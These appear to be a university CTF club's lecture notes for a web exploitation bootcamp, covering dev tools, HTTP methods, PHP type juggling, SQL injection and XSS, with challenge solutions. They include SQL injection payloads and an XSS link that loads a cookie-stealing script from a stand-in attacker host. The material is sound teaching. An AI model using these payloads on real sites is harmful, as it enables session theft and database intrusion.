

# Web lessons for the 2020 bootcamp

## Day 1
### Quick intro
- Welcome to the first training session for the 2020 b00tc4mp! This first week we have two sessions on the basics of web exploitation.
- Web is cool but it's got sooooo much stuff.
- I like it because I use websites every day and I like to know how the stuff I use works.
- It's also exciting:
    - New tech is coming out all the time, new js frameworks, web assembly, etc.
- New code means new vulnerabilites which is always exciting for security researchers and ctf developers.
- When ctf challenges incorporate these cutting edge technologies into ctf challenges it encourages participants to learn. This relationship grows the security community which in turn makes web sites safer for everyone.


### Engagement
- What things have web components? Drop your answer into the YouTube or twitch chat.
    - Routers
    - Computers
    - CUPS (printing on linux)
    - Your personal computer? Web browser.
    - ELECTRON??
- What web hacking terms have you heard of?
    - XSS Cross Site Scripting
    - Template Injection
    - SQL injection
    - Misconfigurations
        - Open s2 boxes
    - Insecure deserialization
    - Equifax & Uber
- How many of you are already 1337 hax0rs? And how many of you have never event heard of HTML in your life or are somewhere in the middle
    - No one is a master, not even me --> tech is constantly evolving and you can never stop learning.
- If you have a question or something doesn't make sense **please type in the chat** and one of the b01lers officers will help you and I'll be checking in to see if I can help clarify anything as well.


### Interactive Demo 1
- So instead of lecturing for a couple hours, I've prepared some demos to go over. This is a win win because I get to talk less and you guys get to get to do something instead of just sitting there slamming monsters and munching Doritos.
- They are in your docker container already so I'll run through the steps to access it in a second.
- This demo is intended to show how useful the pre installed developer tools in your browser are.
- Before we begin I have to assume you all know nothing about how a website works so if you're already familiar with all of this stick with me while I cover some basics.
- I'm going to switch over to my docker container now so feel free to follow along, or just watch, totally up to you.
- **Switch to chrome**

#### HTML
- You're gonna hear me bring up this thing called HTML a lot so to start off: what is html?
- HTML stands for Hypertext Markup Language and pretty much all web pages on the internet use HTML to show users content.
- **Make an html file in vim** `test.html`
```
<html>
    <body>
        <h1>Web exploitation 1</h1>
        <p>Hi!</p>
        <p>This is an html file</p>
    </body>
</html>
```
- This is an html file, if you notice it's got opening and closing tags; they all do different things, some are containers to put other tags in, some are for links, others are buttons, literally everything you see on a web site has a tag.

#### Opening browser dev tools
- Let's open this file in firefox like so `firefox test.html`
- We see the browser has rendered the html file I just created.
- And we can open the dev tools by right clicking and selecting 'inspect element'
    - F-12 is also a shortcut key for most browsers.

#### Inspect element
- The first thing you should see is the inspect element. This is a great tool to see the html of the site.
- It organizes html elements by tag and you can expand and collapse them to focus on one thing at a time.
- This example is super simple so we don't have a lot to see, but if we open a new tab, we can see how this is useful.
- A useful feature is if you scroll over a visible tag it will be highlighted on the screen.
    - This is useful if you want to figure out how the web developer managed to center their image with CSS.
        - (CSS is just how people change the appearance of html tags, like changing the font color and one of the things people often struggle with is centering images)
    - You can also edit the html and make it say whatever you want! Right click the tag and select `edit as HTML`.
    - It's also useful if you're trying to find the javascript code that updates a forum post.

#### Console
- Speaking of javascript the next tab we are going to switch to is the javascript console.
- Javascript was originally designed to extends html's functionality. But now it's evolved into something that people think they hate but in reality isn't so bad.
- It can serve responsive html through a dynamic javascript frontend from a backend server written in javascript. Boom. Wrap your noodle around that one.
    - TLDR; js has become very powerful
- Anyway it's not actually that complex, it just takes some time to learn.
- Let's add a simple javascript to our html file.
```html
<script>
function say_hi(){
    alert("hi");
}
</script>
```
- I've added a script tag to tell the browser to interpret the content as javascript.
- Then I added a javascript function that will make a box pop up that says "hi".
- Simple enough, let's call our function using the javascript console.
- `say_hi()`
- WOWEE IT WORKED: this is the first live demo in the history of live demos that have worked first try.
- The console can be used to interact with javascript that is on the CLIENT SIDE *more on this when we get to the network tab*
- You can also use it to execute lines of javascript `alert('hi')`, use it as a calculator `0xff`, or send all of your cookies to malicious websites. *I'll talk about this in the second talk so make sure you come back to watch that one*


#### Debugger
- Next tab: the Debugger.
- A debugger is a tool that developers use to help them remove a bug from their code.
- This is done by setting a break point at a specific line of code, then the program stops executing at that point and we can see what's going on.
- This is useful in CTF challenges because it helps us understand what the code is doing, especially if it's way more complex and gross than our simple example.
- This is how my high score in that Facebook basketball game is over 9000.
- Add variable to `hi` function
```javascript
function say_hi(){
    let message = "hi";
    alert(message);
}
```
- Set breakpoint at alert
- Change message to bye
- We've just changed how the website works. Again note that what we just did is on the client side.


#### Network
- Okay, let's finally get to the client vs server side stuff I've been weaseling my way around for the past 10 minutes.
- The client side is what you see all the time, it's html, it's javascript it's all stuff you can control.
- The server side is stuff you shouldn't be able to control and you generally don't know what's going on there.
- The client and server will often communicate with each other and this is where the network tab comes in.
- This is where you can see all the requests your browser (the client) sends to the server and the responses it receives back from the server.
- Quick demo:
1. You type into your browser `www.wikipedia.com`
    - You can see all the requests your browser makes.
        - Compare this to a request to `www.google.com`
    - We can filter the requests by clicking the html button above the list of results.
2. Your browser sends a message, in a very specific form, called a `GET` request to `www.wikipedia.com` that asks for the index
    - The index is the root, or base of the website, much like the root of the linux filesystem '/'
    - You can think of this (the HTTP protocol) as the language that browsers and web servers use to communicate with each other. *I'll explain this more in the second demo*
    - Every request is in a specific form, we can view the request by clicking on any of the entries and clicking 'headers' on the new window that appears.
    - Then scroll down to the 'Request headers' entry and select some setting to get the raw headers.
    - We can see on the first line `GET / HTTP/2` <-- this is the line that contains the most important information.
        - `GET` is the method.
        - `/` is the resource location.
        - `HTTP/2` is the protocol and version.
    - The other section of a request is called the body.
    - You can think of the headers as information about the message and the body as the message.
    - These two sections make up an HTTP request.
3. Wikipedia's server receives the request and sends back a response.
    - The response is also in a specific form, can anyone guess what 2 sections that it contains? **I'll give you a hint: it's very similar to the 2 sections we just learned about**
    - The headers are information useful for the browser, such as the status code (404 not found, 302 redirect, etc..)
    - The body of a response is the webpage data (html, css, js, or more). This is the content of the page and what you usually see when browsing the internet.


#### Storage
- **DO GO TO STORAGE ON THE WIKIPEDIA PAGE**
- Cookies are key value pairs that the website stores locally in your browser.
- These values can be anything from configuration settings to session ids, or latitude and longitude coordinates to your location.. Cool..
- Welp if you find my address send me a nice thank you note or something.
- Uhh so I was talking about the storage tab. You can view the cookies that the domain is storing in your browser.
- You can also edit the values as well since they are stored client side.


#### Demo Start
- This first demo has 4 flags to find.
- To access it open your browser and type `localhost:3000`
- If you can successfully log in, let us know type `file:///web/0-basic_dev_tools/templates/flag4.html`
**5-10 mins**
- Go over solutions

#### Basic Devtools Solutions
- Open the inspect element

##### Flag 1 Inspect element (column 1)
- The first flag is in a comment directly under the jumbotron div that displays the Basic Devtools Example title.
```
<!-- Part 1: Look at the comments, they're helpful! first flag: b0ctf{web_example_1!}-->
```

##### CSS (column 2)
###### Flag 2: CSS Part 1
- Continuing on to the next column, CSS.
- For this challenge stay on the inspector tab and find the column 2 div.
- This might seem super easy (the flag is just in the html, what's the point) but the challenge here is not getting the flag, but just an example of changing the html in your browser through the inspector.
- Right click the div -> edit as HTML, or just double click it and remove the background color and you've uncovered the flag.

###### Flag 3: CSS Part 2 (This one is kinda harder)
- At first it appears that there isn't anything there, but when you look at the html you will find a div with 0 opacity. Change the opacity to > 0 and you'll be able to see the 'Click me!' button.
- Except when you click it, it doesn't do anything...
- Looking at it closer you can see it has `disabled="False"`.
- Changing the value from False to True doesn't do anything, but that would mean it would be disabled?
- Just delete it.
- Once you've removed the `disabled="False"` from the tag you can click the button and it'll take you to flag3
```
b0ctf{was_it_harder?}
```
- Additional challenge, where else can you find flag3 location from the main page?

##### Flag 4 Javascript
- At the bottom of this column there's a login section.
- Just trying a random username and password gets us nothing, but if you still have inspector open, go ahead and find the column 3 div.
- Look for the \<script\> tag, this tag means that it contains javascript code. The following is an excerpt from the challenge.
```
<script>
  function login() {
    let username = document.getElementById("username").value;
    let password = document.getElementById("password").value;
    if(username === "admin" && password === "passw0rD") window.location='flag3.html';
    else document.getElementById("alert").style.display = 'block';
  }
  ...
</script>
```
- The two lines with `let ... = ...` store the username and password input you type into the variables `username` and `password`.
- The next line compares each of those variables to the values `admin` and `passw0rD`.
- Using the power of deductive reasoning, let's try typing `admin` into the username box and `passw0rD` into the password box.
- And `_rt_niisis_idebecs}eten0ujl{_cscf` doesn't look like a flag.
- There's another \<script\> tag with this Javascript.
```
<script>
  function unscramble() {
      ...snip...
  }
</script>
```
- I assume this unscrambles the flag, but there isn't any way in the html to call the function so we use the javascript console.
```javascript
>> unscramble()
b0ctf{client_side_js_is_insecure}
```


### Interactive Demo 2
- This next demo is all about different HTTP methods. By browsing the web you tend to only use GET and POST, but there are more defined.
- Remember when I said there was a special language that websites and web servers use to communicate? The name of it is HTTP and you used to have to type it into the nav bar to get to websites. HTTP is a protocol that operates on the application layer for all you OSI model nerds.
- HTTP has a lot of defined methods, **Mozilla methods list**.
    - GET, this is what browsers send to 'get' or request resources from a web server. This can be anything from the html index, or getting a picture, or css stylesheet.
    - POST, this is what browsers use to send data to a web server. This is commonly found when you hit a login button, or submit information to register for an account.
    - OPTIONS, if this is implemented, this will tell a browser what options are okay to use on a specific url.
```
GET / HTTP/1.1
Host 127.0.0.1
```
- One note on http methods: they are supposed to do what the 'standard' says, but the server can interpret the request however it wants.
    - The most common example is when you make a request to google.com. You aren't explicitly requesting an html file, but the server sends one anyway.

#### Using CURL
- `man curl`

#### Using postman
- `postman` in terminal
- Skip account creation on the bottom if you scroll down
- Make sure you're in dark mode so you don't strain your eyes.
- `Create a request` from the launchpad
- Method is the method you want to use
- Url is the site you're requesting
- The options will change based on what method you select, but just click the send button to send the request


#### Demo start
- This demo walks you through the other methods and how to send them.
- There are 2 flags with this demo. Use the first flag as a hint to help you find the second flag.
- To access this one go to `localhost:3001`
**5-10 mins**
- Go over solutions

#### HTTP methods
- The first page you pull up gives you a flag and a nice description of the different methods.

##### GET
- Just using a browser to view the page will give you part 1 of the flag: `b0ctf{`

##### HEAD
```
$ curl -I [website]
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
flag-part2: part2_
...snip...
```

##### POST
```
$ curl -X POST [website] -d arg1=doot
<h2 id="flag">Flag pt 3 of 6: 'is_GET'</h2>
```

##### PUT
```
$ curl -X PUT [website] -d arg1=doot
<h2 id="flag">Flag pt 4 of 6: 'ting_r'</h2>
```

##### DELETE
```
$ curl -X DELETE [website]
<h2 id="flag">Flag pt 5 of 6: 'obots.'</h2>
```

##### OPTIONS
```
$ curl -X OPTIONS [website]
Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
flag part 6: 'txt}'
```


- Putting everything together
1. b0ctf{
2. part2_
3. is_GET
4. ting_r
5. obots.
6. txt}
- b0ctf{part2_is_GETting_robots.txt}

##### Part 2
- Using the flag from part 1 we can see that we have to GET robots.txt
- To do this you can just type in [url]/robots.txt
```
... snip...
# Flag: b0ctf{congrats_welcome_to_the_botnet}
...snip...
```


#### Conclusion
- **SWITCH BACK TO PPT**
- Thank you all for watching and following along with the stream
- We've got time for some questions so go ahead and ask those in the chat
- Thank you all again for coming and I'll see your wonderful and not so wonderful chat messages September 4th at 6:30

## Day 2
- Welcome to the second and final 1337 web exploitation b00tc4mp session. We're going to get into some more complex topics so again please ask questions if things don't make sense.

### Solve CTF Chall
- So I got a lot of feedback on solving an actual ctf challenge real time
- I can go over an easier one, or a harder one. Let me know in the chat what you guys think would be best for you to learn.

#### Hard
- This is a chall from our 2019 bootcamp ctf called *Never DO a PhD*.
- Where should we start? *I'm not starting twitch plays ctf I swear, I'm just using this as a rhetorical question*
    - The beginning of course
- How about the beginning?
- It's a web challenge, let's go to the index.
- `chal.ctf.b01lers.com:9004`
- Read the html
- Inspector (sequentially)
- Find comment
- go to `chal.ctf.b01lers.com:9004/index.txt`
- We've got some source code now, let's go through it real quick.
- Things to note:
    - It's PHP.
    - We don't have a lot of php.
    - Depends on this `admin` variable
- Let's go through some php stuff.
- First of all remember that client and server side stuff I mentioned on monday php is an excellent example of this.
- Technically it's a server side scripting language; which means all of the embedded php code is run server side.
- It's like having a server and web page mushed into 1 thing. You can view this as something really cool, or really gross.
- Anyone have any ideas on what to do now?
- Anywho the `session_start()` and `admin =` line stands out, let's see what these do.
- How do we figure out what built in functions do?
- Look it up? you're damn right
- Session start: [https://www.php.net/manual/en/function.session-start.php](https://www.php.net/manual/en/function.session-start.php)
    - Start's a session and it gets stored into the PHPSESSID cookie, cool
- Now what does the next line do?
    - Sets admin to false
- I meant the next next line.
    - if statement: true sets admin to true
- How do we set this to true?
- Simple, let's just copy the thing it's comparing to to our PHPSESSID cookie and let's try that.
- Why didn't it work?
- `php -r 'echo hash("sha256", "doot");'`
- Okay well it's hashing the cookie and it's definitely not equal to 0e....
- Well one thing to know about php is that there are no types, for example you don't have to declare a variable as "int" or "string" or "char".
- Languages without strict typing often have type juggling bugs which can lead to comparing two types that aren't the same.
- In php has an equals operator with 2 equal signese and an identical operator with triple equals.
```
$a == $b     Equal        TRUE if $a is equal to $b after type juggling.
$a === $b    Identical    TRUE if $a is equal to $b, and they are of the same type.
```
- One case of php type juggling is that if two strings contain 0e, php will interpret both as an integer.
- 0e is scientific notation for $0*10^x$ *which will always be 0! So if we can figure out how to get the hash to start with 0e we can get a type juggling error to get $0 == 0$
- Let's just find any sha256 string that starts with "0e"...
- That doesn't work either.
- The second hash has to only contain digits after the 0e...
- Thank goodness this has been computed before because this would take forever.
- [https://github.com/spaze/hashes/blob/master/sha256.md ](https://github.com/spaze/hashes/blob/master/sha256.md )
- `Sol7trnk00`
- Quick fix: use ===

#### Easy
- `chal.ctf.b01lers.com:9002`


### Interactive Demo 3
- Databases are used in websites around the internet to store and recall data quickly.
- Databases are also treasure troves for hackers tryna pwn your site.
- There are relational and non relational databases.
- I'm not going to go into these in depth, but know that relational databases store data into groups or tables, non relational databases don't
- This is a nice little tidbit of information for ctf challs and tech talk in general, but I'm gonna stick to just talking about MySQL which is a relational database.

#### Database structure
- Relational database structure is super important and can also be gone over relatively quickly
- Here's a nice picture, jk I wouldn't make you look at anything awful like this
- Here's the picture I drew in paint.
- Databases have tables, tables have rows and columns
    - **Note** There can be multiple database structures in an instance of mysql or other database tech
- Here's another picture I drew in paint.
- In this case we have the ID, name, and age columns.
- You can think of this as a variable type: all data entries in the id column will be an integer, name will be string, age will also be integer.
- The row is where you can access the data for one complete entry. It includes the id, name, and age columns.

#### Storing and Accessing data
- `INSERT INTO database_name.table_name (id, name, age) VALUES (0, "Joe", 22);`
- `SELECT id, name, age from database_name.table_name;`
    - If our database has more than just Joe, how do we get just the info we want?
- This LIKE conditional.
- `SELECT id, name, age FROM database_name.database_table WHERE id LIKE 0;`

#### Permissions
- Databases can have users, and users don't always have drop permissions!
- Permissions are usually granted when the users are created.
- These can be anything from select, to insert, etc..

- This is a demo about SQL. My recommendation to all of you is to teach yourself more about databases by taking a databases course or building a project with a database to see how people use databases and how to build one yourself.
- This might be hard for some of you to follow along with but we're here to help so ask questions if you're stuck!
- There's only 2 flags, but there's a lot more to pick up here.
- `chal.ctf.b01lers.com:8003`
**8-15 mins**
- Go over solutions

#### Part 1:
##### Get more information about the database tables
- Use a select query from information_schema to get the table names
```
SELECT table_name FROM information_schema.tables;

...SNIP...
basic_table
basic_table_names
flag_table
```

##### Investigate flag_table
- Use a select query to get all the rows from flag_table
```
SELECT * FROM flag_table;
b0ctf{you_found_the_flag!}
```

#### Part 2:
- This is an actual SQL injection and you're given the query as a hint.
- First of all just looking at the table, it looks incomplete the IDs go from 2 to 4 and 5 to 9 so we're missing information.
- If you look closely it's the same table as the example from the index
- To check if this is vulnerable to SQL injection, just put a `'` into the search bar.
    - We get an error so yes it is. (It's also an SQL injection example so of course it is I'm just adding this so you can check when you solve other CTF challenges)

- Here are 2 solutions:
- **Note if these don't work, change the comment from ** `#` **to** `-- -`
- **Also note that the query in the hint is sent by the server, you have to inject your own input into it**
1. ';#
    - The query for this turns into: `SELECT title, author FROM books WHERE title LIKE '%`';#`%' AND pages <= 400;`
2. ' OR pages >= 500 OR author LIKE ';
    - The query for this turns into: `SELECT title, author FROM books WHERE title LIKE '`%' OR pages >= 500 OR author LIKE '`%' AND pages <= 400;`


### Demo 4 -- Link Good, or Link Bad?

- Alright so some back story here, I'm pretty sure the person who wrote this is a b01lers member but I found it hilarious.
    - This is a post telling people about the club and this person had a totally accurate reaction to a *hacking club telling people to click a link*
    - **READ IT**
- I'm gonna go over a couple things people can do with links and how to identify links you should be suspicious of.
- If someone were to send you a malicious link the short answer is yes they'd be able to do malicious things to your browser.
- The longer answer is that most malicious links are phishing links that require you to input data yourself, so the first thing to look for is if the link address is what is displayed.
- Emails, word documents, websites, etc. All have the ability to make links look nicer, or just make multiple words a link so it's easier to click.
- But this can be used in an evil and dastardly way if the displayed text is in link form, but a different link than the address.
- For example let's make another html page.
```
<html>
    <a href="https://www.google.com">https://www.google.com</a>
</html>
```
- In this case we can see that the link matches the displayed text, but what if we changed it.

```
<html>
    <a href="https://www.bing.com">https://www.google.com</a>
</html>
```
- One way to identify this quickly is to hover the link and look at the bottom left of your browser, which should give you a preview of the link.
- You can also right click and copy link address pasting it into notepad to look at, or even use the developer tools to find the link in the html and inspect it that way.

- Another thing that can be done with a malicious link is CSRF (Cross Site Request Forgery), but I'm not going to go over that in this talk.
- What I am going to go over is XSS.

#### What is XSS?
- XSS stands for cross site scripting
- The basic concept is that hackers can execute code into a victims browser. Typically it's injecting javascript in a script tag like: `<script>alert()</script>` into a website.
- With code execution, almost anything can be done so it's a serious vulnerability.

- 3 types of XSS: Persistent, Reflected, and DOM

#### Persistent / Stored
- Forum comment, can post a `<script>` tag and the server will send it back to any users that retreive the resource it's stored in.

#### Reflected
- Input from user is sent 'reflected' back from the server
- Hacker sends malicious link with malicious js
- `http://forum.com?q=news<\script%20src=”http://hackersite.com/authstealer.js”`
    - https://www.imperva.com/learn/application-security/reflected-xss-attacks/
- The response to the link is from the server, but it is not stored like before.

#### DOM
- This one is a little bit harder to understand, but relies on a page that adds html elements to the page.
- The malicious user will provide data that the webpage will improperly interpret as a script.
- This attack can be done without forwarding any request to a server.
- For example if there is a website that uses your name and parses the url for the query string `?name="Joe"`, then uses javascript to call `document.write("Joe");`
    - Change `Joe` to `<script>alert()</script>` and now we have DOM XSS

- Can be interactive if too much time left over
    - I've done a lot of demos, so here's your first challenge. This is a form that is vulnerable to XSS.
    - Just remember that this is local so do anything super bad to yourself.
- This is just a quick reflected XSS demo, it's also in your container if you want to follow along.

- `localhost:3004`

#### Writeup
```html
I'm <strong>STRONG</strong>!
```
- If you can put in tags, that means you can put in `<script>` tags...

- What can we do with XSS?
- We can get user cookies, redirect them to a site we can control, or even impersonate the user and execute actions as them.
- Since this is local we can use python's built in http server to get a callback.

- Start our callback site:
- `python -m http.server`
- If you have your own server, you can easily send the data to that as well.
- To get our callback we can enter into either of the forms with:
```html
<script>document.write('')</script>
```


### Interactive Demo 3?
```
mkdir /headless/bootcamp/burp
chown default /headless/bootcamp/burp
burpsuite-install
# In the installer, select the /headless/bootcamp/burp directory for BOTH prompts
# Finish the install, ignore the warning about the sandbox browser
cd /headless/bootcamp/burp/BurpSuiteCommunity
./BurpSuiteCommunity
```
- **Note: to use this tool for https websites you have to install a certificate, but we aren't going to go over that process, you can do that on your own later**
- [Install burp certificates](https://support.portswigger.net/customer/portal/articles/1783075-installing-burp-s-ca-certificate-in-your-browser)
- **Note: a proxy switcher just makes it easier to switch off the intercepting proxy**
- [Set up proxy switcher for firefox with foxyproxy](https://howtotechglitz.com/using-burp-foxyproxy-to-easily-switch-between-proxy-settings-null-bytes-wonderhowto/)
- This tool is similar to Postman, but it is for a different purpose

#### Part 1 what is the proxy
- `127.0.0.1:8080` in the proxy tab.
- This tab handles all of the intercepted traffic, you get to view your request before you send it and can change it however you like.
- This is nice because it gives you a quick look into what the request is and if there is anything being sent from the website that is hidden.
- **Note** This can get crowded if you've got a lot of windows open, so make sure to open a fresh window or close your tabs.
- **Note** You can also forget that you have this on and so when you go to visit a page it will appear as if you can't connect to it because the request is stuck in burp.
- Editing a request


#### Part 2 what is the repeater
- This tab allows you to repeatedly change one request as many times as you'd like and see if the response changes.


#### Part 3 what is the intruder
- This tab allows you to send predefined values over and over again. You can use this to brute force a login.
- **Note** ctf challenges usually don't like to make brute force challenges because they're kinda stale, but if you have to brute force something, don't use burp, the free version is rate limited and is super slow.

- A non graphical way is through python. The requests library can script interactions with a website and is super useful in ctf challenges.

- This demo is an example that burp excels at.
- There's only 1 flag
- To start it go into type `./web/2-burp.sh`
- This will start the web server for the burp example and store the logs in `~/web/logs/2-burp.log`
- **5-10 mins**
- Go over solutions
    - Show how you can intercept response to remove rick roll redirect as well


### Other resources
- [https://xss-game.appspot.com/](https://xss-game.appspot.com/)
- [https://www.hackthebox.eu/](https://www.hackthebox.eu/)
- [https://www.hackthissite.org/](https://www.hackthissite.org/)
- [http://www.dvwa.co.uk/](http://www.dvwa.co.uk/)
